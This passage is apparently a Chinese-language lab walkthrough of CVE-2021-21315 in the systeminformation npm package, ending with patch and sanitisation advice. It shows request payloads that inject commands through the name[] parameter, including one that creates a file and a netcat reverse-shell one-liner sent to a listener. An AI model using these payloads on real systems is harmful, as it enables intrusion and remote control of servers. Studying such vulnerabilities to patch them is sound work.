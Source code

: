 ```bash
git clone https://github.com/ForbiddenProgrammer/CVE-2021-21315-PoC
cd CVE-2021-21315-PoC
node index.js
```

![image-20240819143923688](https://image.201068.xyz/assets/22.JavaScript/image-20240819143923688.png)

### 信息泄露

```bash
http://192.168.70.4:8000/api/getServices?name[]=
```

![image-20240819144346635](https://image.201068.xyz/assets/22.JavaScript/image-20240819144346635.png)

### 命令执行

#### 创建文件命令

```bash
http://192.168.70.4:8000/api/getServices?name[]=$(echo -e 'zeeker' > test.txt)
```

![image-20240819143957260](https://image.201068.xyz/assets/22.JavaScript/image-20240819143957260.png)

这里直接指向本地

查看本地，发现存在`test.txt`文件

![image-20240819144040229](https://image.201068.xyz/assets/22.JavaScript/image-20240819144040229.png)

### 利用nc反弹shell

#### 攻击机监听

```bash
nc -lvvp 7777
```

![image-20240819144144116](https://image.201068.xyz/assets/22.JavaScript/image-20240819144144116.png)

#### 浏览器反弹shell

```bash
http://192.168.70.4:8000/api/getServices?name[]=$(nc -e /bin/bash 192.168.70.4 7777)
```

![image-20240819143741280](https://image.201068.xyz/assets/22.JavaScript/image-20240819143741280.png)

#### 反弹成功

![image-20240819143718905](https://image.201068.xyz/assets/22.JavaScript/image-20240819143718905.png)

## **0x05** **修复建议**

该漏洞已经修复，将`systeminformation`升级至`5.3.1`或更高版本即可

链接：https://www.npmjs.com/package/systeminformation

若无法升级，检查或清理传递给 `si.inetLatency()、si.inetChecksite()、si.services()、si.processLoad()`的参数，只允许使用 string，拒绝使用任何数组。

